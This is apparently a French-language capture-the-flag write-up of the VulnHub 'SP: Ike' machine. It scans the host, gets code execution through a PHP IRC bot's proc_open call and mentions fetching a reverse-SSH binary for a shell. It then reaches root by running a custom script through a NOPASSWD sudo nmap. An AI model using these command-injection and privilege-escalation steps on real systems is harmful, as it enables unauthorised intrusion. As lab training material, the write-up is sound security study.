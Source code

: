```yaml
---
title: "Solution du CTF SP: Ike de VulnHub"
tags: [CTF, VulnHub]
--- 
```


[SP: ike](https://www.vulnhub.com/entry/sp-ike-v101,275/) est un CTF de type boot2root proposé sur VulnHub. La description est la suivante :

> Ike is a servant of something which also starts with "I" and has only three letters.

Hmm moi j'imagine plutôt IKE donc VPN mais on voit tout de suite que c'est plutôt IRC :

```
Nmap scan report for 192.168.56.76
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
6667/tcp open  irc     InspIRCd
| irc-info: 
|   server: irc.ike.local
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 2
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.1
|_  error: Closing link: (nmap@192.168.56.1) [Client exited]
```

On a un serveur *InspIRCd*. Aucun exploit n'est présent pour ce logiciel sur exploit-db comme quoi soit il est bien conçu soit il n'intéresse personne :D

Sur ma machine, il ne me reste que Pidgin comme client supportant IRC alors on fera avec. Je crée le compte en spécifiant l'adresse IP du serveur puis je vais sur *Comptes > devloop@192.168.56.76 > voir le message du jour* qui m'affiche les infos suivantes :

```
- #############################################
- #               ####  #  #  ####            #     
- #               #  #  #  #  #  #            # 
- #               ###   ####  ###             #
- #               #     #  #  #               #
- #               #     #  #  #               #
- #############################################
- 
- Welcome to the PHP community IRC server where you can get help with your PHP code. 
- Also feel free to talk and share information about PHP in general. 
- Join the main channel at #php for a friendly chat!
- 
- Rules:
- * Don't ask to ask, just ask.
- * Don't paste code directly in the chat, use pastebin.
- * Don't ask the same question again if no one answers.
- * Don't flood the channel in general.
- * Run PHP commands through the PHP bot with !php <command>
- * Please don't try to abuse the bot.
- * Behave like an adult.
- 
- #############################################
- #############################################

```

Avec un client plus traditionnel j'aurais eu le message directement.

Il y a donc un bot sur le chan `#php`. On va causer un peu avec lui :

![VulnHub SP Ike PHP IRC bot](/assets/img/vulnhub/sp_ike/irc_phpbot.png)

`proc_open` est donc notre porte d'entrée. Je peux récupérer l'environnement qui en dit suffisamment long sur le compte qui fait tourner le bot :

```php
 !php proc_open("env",array(),$something);
```

```bash
HOME=/home/ike
LOGNAME=ike
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/ike
```

Je rappatrie un reverse-sshx64 dans le dossier courant puis l'exécute pour avoir mon shell et tunnel SSH.

```bash
ike@ike:/home/ike$ cat flag.txt 
cdca0db3c1d9a7290
ike@ike:/home/ike$ sudo -l
Matching Defaults entries for ike on ike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ike may run the following commands on ike:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/nmap
```

Un coup d'œil à GTFObins plus tard :

```bash
ike@ike:/home/ike$ echo 'os.execute("/bin/dash")' > myscript 
ike@ike:/home/ike$ sudo /usr/bin/nmap --script=myscript

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-20 15:08 CET
NSE: Warning: Loading 'myscript' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # flag.txt
# d8f8254074369b6
```

Dans l'output çi-dessus on ne voit pas les commandes que je tape car je suppose que stdin n'est pas répété mais il s'agit des commandes `id`, `ls` et `cat`.

*Publié le 20 décembre 2022*
